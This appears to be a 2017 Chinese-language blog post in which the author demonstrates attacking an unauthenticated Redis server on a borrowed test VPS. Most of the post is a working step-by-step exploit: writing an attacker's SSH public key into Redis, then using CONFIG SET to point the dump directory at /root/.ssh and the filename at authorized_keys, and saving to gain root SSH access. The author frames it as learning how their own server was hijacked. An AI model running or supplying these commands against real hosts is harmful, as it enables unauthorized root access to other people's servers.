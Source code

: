 ```yaml
---
title: 使用redis漏洞攻击服务器
date: 2017-08-07 
tags: [redis漏洞, attack]
---
```

由于我的服务器上装了redis，又没有设置密码。所以将6379(redis默认的)端口暴露在公网中，所以被别人恶意当做挖矿机，我也想操作一下别人是怎么攻击我的服务器的

### 准备工作
我借了我同事妹子的VPS，作为攻击的测试机。首先在这台测试机上装redis，安装redis的步骤我已经在前几篇博客中有介绍，这里就不重复说了。
攻击者：107.182.xxx.xxx
被攻击者：45.78.xx.xx

然后我们就可以开始了.
首先我们先尝试连一下45的服务器
```bash
$ ssh root@45.78.xx.xx
```
结果当然是连不上

### 通过redis漏洞攻击

```bash
$ ./redis-cli -h 45.78.xx.xx
```
<img src='http://oo8ieb5e5.bkt.clouddn.com/image/vps/attack_redis_connect.png' />

这时我们已经成功连接redis

在当前这台服务器上生成公钥私钥
```bash
$ cd ~/.ssh
$ ssh-keygen -t rsa -C "1239391682@qq.com"
$ cp id_rsa.pub ~/
```
修改id_rsa.pub文件，在文件的开头和末尾添加回车(可以多加几个，我自己第一行加了一个回车，不太好用)
然后将公钥文件写入被攻击主机的redis

```bash
$ cd /usr/redis
$ cat ~/id_rsa.pub | ./redis-cli -h 45.78.xx.xx -x set ssh-key
> OK
```

现在我们重启连接进目标主机的redis
```bash
$ ./redis-cli -h 45.78.xx.xx
$ keys *
1) "ssh-key"
2) "test"
3) "attack"
$ get ssh-key
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAyxRp0P6DTEpz7ACtwYGuFTdCOYW6yUflL4IsIWBa4IsvMQKd5ikx2MMJcacYYz5Xq+amYnPn3w/KDco9EUNlppbf5EQkdtQ8bWbURFUypOeqsr0HQwfesEUbGxCWlHzScGoUt9+sBGiKIKyKrGO99ccDQPnQcBl2JlTljvea8WVBym4rM0+L3ofYb0QVN9gvuZGDCa6wiefcAj81ii6Vv/Hb+YSE+Sl+tNVGBE01WCWmVx+u2oj0NwX2xLlCNt5Cl+6ns0bwu92Qa6mLybV0oWcy+GPFVjth52wFfVG/a2c96lZ/r+M8yik3Rq7yZKUYcw10J8sh0+9pwvXZZlUyqQ== 1239391682@qq.com\n\n\n"
```

公钥已经写入目标主机，接下来，我们使用config命令，分别查看redis写入日志的文件名和目录：
```bash
$ config get dir
1) "dir"
2) "/usr/redis"
$ config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

然后我们需要重新设置保存路径和日志文件名，并保存redis中的数据
```bash
$ config set dir /root/.ssh
OK
$ config set dbfilename "authorized_keys"
OK
$ save
OK
```
